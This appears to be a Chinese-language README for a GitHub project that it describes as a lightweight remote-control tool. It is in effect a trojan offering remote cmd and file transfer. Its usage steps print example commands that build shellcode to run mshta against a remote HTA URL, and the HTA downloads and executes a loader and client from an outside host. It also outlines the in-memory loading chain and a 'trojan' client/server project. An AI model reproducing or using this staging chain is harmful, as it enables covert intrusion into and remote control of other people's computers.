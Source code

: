 <h1>蜡笔小新</h1>

<h3>版本</h3>
<p>1.0</p>

<h3>简介</h3>
<p>轻型远程控制软件</p>

<h3>功能</h3>
<p>1、远程 cmd</p>
<p>2、文件上传下载</p>

<h3>使用方法</h3>
<p>1、使用 shellcode\GetShellcode.py 生成 shellcode
   例子: GetShellcode.py -c "mshta http://192.168.0.1//u9V75048V41swXC4.msha"</p>

<p>2、使用 hta\DownloadURLFile.py 生成 hta 脚本。
   例子: DownloadURLFile.py -a http://192.168.0.1/loader.exe -b http://192.168.0.1/client.exe -c loader.exe -d client.exe </p>

<p>3、在 loader 项目中生成加载器
   例子: 这个需要用 vs 打开项目, 之后在 Main 函数中修改 client.exe 文件名, 方便加载器加载客户端程序</p>

<p>4、在 trojan 项目中生成客户端和服务端程序
   例子: 这个也需要用 VS 打开项目, 之后在 Main 函数中修改需要连接的 IP 地址或者 URL, URL 连接的功能暂时没有做出来(-_-)</p>

<h3>加载流程</h3>
<p>通过内存 shellcode 远程加载 hta 脚本并运行, hta 脚本会将客户端和加载器下载到当前目录, 然后运行加载器并等待加载器完成工作, 最后运行客户端以连接服务端</p>
